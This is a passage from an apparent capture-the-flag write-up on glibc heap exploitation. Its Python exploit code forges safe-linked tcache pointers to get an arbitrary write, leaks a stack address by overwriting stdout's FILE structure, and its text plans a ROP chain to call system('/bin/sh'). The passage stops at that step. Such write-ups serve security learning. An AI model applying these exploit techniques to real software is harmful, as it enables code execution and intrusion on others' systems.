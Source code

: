 ```py
arb_free(mmap_payload_base+16)
arb_free(mmap_payload_base+16 + 0x20 + 0x40) # chunk 2
arb_free(mmap_payload_base+16 + 0x20) # chunk 1

def protect(cur_chunk_addr, link_val):
    return (cur_chunk_addr >> 12) ^ link_val

write_where = 0x...
write_what = b'...'

# Use the 0x220 chunk to overwrite the metadata of (currently free'd) chunk 1
create_not_secret(10, b"E" * 0x18 + p64(0x41) + p64(protect(mmap_payload_base, write_where)) + b"\n", l=0x210) # protected

# first 0x40 chunk is chunk 1
create_not_secret(0, b"\n", l=0x38)

# the second 0x40 chunk returned is our write_where address!
create_not_secret(1, write_what, l=0x38)
```

## 7. Stack leak using stdout file struct (FSOP)

I used the [information leak technique from faraz.faith's blog](https://faraz.faith/2020-10-13-FSOP-lazynote/#information-leak). It basically consists of overwriting some pointers in the [`_IO_FILE` structure](https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/bits/types/struct_FILE.h#L49) so that it will try to 'catch up' and print out `(_IO_write_ptr - _IO_write_base)` bytes from `_IO_write_base`. 

I tried just moving `_IO_write_ptr` a bit higher, but there didn't seem to be any stack pointers nearby. So I ended up finding a stack pointer (in the `environ` global) and just pointing _IO_write_ptr and friends relative to that.

```py
# determined experimentally
stack_leak_addr = (leak_revealed + 0x7520) & ~0xff

# fields are listed at https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/bits/types/struct_FILE.h#L49
# we had to include the flags field (unchanged 0xfbad2887) because malloc only returns aligned pointers
leak = create_not_secret(1, p64(0xfbad2887)+p64(stack_leak_addr)+p64(stack_leak_addr)+p64(stack_leak_addr)+p64(stack_leak_addr)+p64(stack_leak_addr+0x2000)+p64(stack_leak_addr), l=0x38)
leak = leak.split(b"Content:\n")[1][:8]
stack_leak = u64(leak)
```

## 8. Use arbitrary-write again, ROP to call system("/bin/sh")

Now that we have a stack leak, we can repeat the write-what-where primitive to write a ROP chain on the stack. I used the return address for the create function at 00001717 because it has no stack canaries.
